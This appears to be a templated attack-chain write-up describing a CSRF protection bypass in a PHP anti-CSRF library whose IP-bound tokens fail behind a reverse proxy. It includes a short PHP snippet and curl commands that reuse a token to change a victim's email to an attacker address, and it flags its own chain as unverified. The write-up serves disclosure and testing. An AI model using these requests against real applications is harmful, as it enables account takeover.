

# CSRF Bypass via IP-Binding Failure in Anti-CSRF Library Behind Reverse Proxy

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses PHP development environment)

### Target Environment

- PHP web application using Anti-CSRF Library v1.0.0 or v2.0.0
- Deployed behind a reverse proxy, WAF, or load balancer
- Access to server configuration for proxy setup

### Initial Access Requirements

- Administrative access to deploy and test the vulnerable application
- Network access to simulate client requests from different IPs

## Detailed Attack Procedures

### Step 1: Demonstrate CSRF IP-Binding Failure
procedure: [[procedures/Demonstrate-CSRF-IP-Binding-Failure]]

**Objective**: Set up a test environment to show that CSRF tokens are bound to the proxy's IP, allowing token reuse from different client IPs and bypassing intended protection.

**Instructions**: Deploy the Anti-CSRF Library in a PHP app behind a proxy like Nginx. Generate a CSRF token on the server, then attempt to use it from a different client IP to perform a state-changing action, such as updating user data.

First, configure the PHP application to use the library's $hmac_ip feature:

```php
<?php
require 'anti-csrf.php';
$token = anti_csrf_generate('update_profile', true); // true enables IP binding
echo $token;
?>
```

Simulate a proxied request using curl to generate the token (proxy IP will be captured):

```bash
curl -H "X-Forwarded-For: 192.168.1.100" -X GET http://proxy-server/generate-token.php
```

Then, from a different client IP, reuse the token to submit a form:

```bash
curl -H "X-Forwarded-For: 10.0.0.50" -X POST http://proxy-server/update-profile.php -d "csrf_token=$TOKEN&action=update_email&new_email=attacker@example.com"
```

**Expected Output**: The token validates successfully despite the IP change, allowing the unauthorized action.

**Success Indicators**:
- Token generated with proxy IP binding confirmed via logs ($_SERVER['REMOTE_ADDR'] == proxy IP)
- CSRF-protected action succeeds from a different client IP
- No token rejection due to IP mismatch

## Attack Chain Summary

### Key Achievements

1. Identified failure of IP-binding in proxied environments
2. Demonstrated potential for CSRF attacks if the feature is enabled
3. Highlighted recommendation to avoid $hmac_ip and use HTTPS instead

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T12:00:00Z*
